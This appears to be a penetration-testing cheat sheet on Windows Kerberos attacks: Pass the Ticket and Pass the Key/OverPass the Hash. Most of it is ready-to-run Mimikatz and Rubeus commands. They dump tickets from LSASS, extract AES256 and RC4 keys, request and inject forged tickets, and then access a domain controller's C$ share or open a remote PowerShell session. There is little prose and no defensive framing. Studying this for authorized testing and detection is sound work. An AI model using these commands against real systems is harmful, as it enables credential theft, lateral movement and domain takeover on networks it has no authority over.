 Tickets are protected by LSASS. Non admin users can only retrieve their own ticket, as a local admin, it is possible to retrieve all tickets on the system.
###### Mimikatz:

Export Tickets:

```bash
mimikats.exe
privilege::debug
sekurlsa::tickets /export
```

Tickets with an `$` indicate they are used for computer accounts. Tickets without just a `@` are user tickets
###### Rubeus

Export Tickets

```bash
Rubeus.exe dump /nowrap
```
#### Pass the Key or OverPass the Hash (forging our own tickets)

We need to extract the `AES256_HMAC` and `RC4_HMAC` keys
###### Mimikatz:

```bash
mimikatz.exe
privilege::debug
sekurlsa::ekeys
```

With the information collected, we can we can perform the OverPass the Hash or Pass the Key attack using `Mimikatz` and `Rubeus`.
#### Mimikatz - Pass the Key or OverPass the Hash

```bash
mimikatz.exe
privilege::debug
sekurlsa::pth /domain:<DOMAIN> /user:<USER> /ntlm:<rc4_hmac/NTLM>
````

#### Rubeus - Pass the Key or OverPass the Hash

The following will receive the ticket in base64 format:

```bash
Rubeus.exe asktgt /domain:<DOMAIN> /user:<USER> /aes256:<AES256_HMAC> /nowrap
```

The following will submit the ticket (TGT or TGS) to the current logon session:

```bash
Rubeus.exe asktgt /domain:<DOMAIN> /user:<USER> /rc4:<rc4_hmac/NTLM> /ptt
```

**Note:** Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus does not.

### Pass the Ticket

With the Kerberos tickets collected, we can now perform Pass the Ticket, and move laterally within the environment.

#### Rubeus

Using the a ticket collected by Mimikatz:

```bash
Rubeus.exe ptt /ticket:<TICKET_NAME>.kirbi
```

We can also import the ticket using base64. The ticket needs to be converted, and can be done in powershell:

```bash
[Convert]::ToBase64String([IO.File]::ReadAllBytes("<TICKET_NAME>.kirbi>
```

Then import:

```bash
Rubeus.exe ptt /ticket:<BASE64_FORMAT>
```

#### Mimikatz

```bash
mimikatz.exe 
privilege::debug
kerberos::ptt "<FULL_TICKET_PATH>.kirbi"
```

Once the tickets have been successfully imported, we should be able to access resources as that user. E.g:

```bash
dir \\DC01.<DOMAIN>\c$
Enter-PSSession -ComputerName DC01
```









